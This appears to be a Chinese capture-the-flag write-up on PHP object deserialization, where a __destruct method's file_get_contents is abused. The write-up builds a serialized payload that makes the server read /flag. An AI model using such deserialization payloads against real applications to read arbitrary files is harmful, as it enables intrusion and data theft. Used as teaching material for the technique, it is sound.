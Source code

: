 构造如下代码

```php
<?php
    show_source(__FILE__);
    class XianZhi{
        public $name;
        function __destruct(){
          echo file_get_contents($this->name);
        }
    }
    $a = new XianZhi();
    echo serialize($a);
?>
```

编译运行得到：

```
O:7:"XianZhi":1:{s:4:"name";N;}
```



![](https://gitee.com/chen-lishan/tuc/raw/master/微信截图_20210426002850.png)

提示：Filename cannot be empty

要找的文件是flag，于是构造以下序列化代码：

```php
<?php
    class XianZhi{
         public $name = '/flag';
    }
    $a = new XianZhi();
    echo serialize($a);
?> 
```

得到payload：

```
/?a=O:7:"XianZhi":1:{s:4:"name";s:5:"/flag";}
```

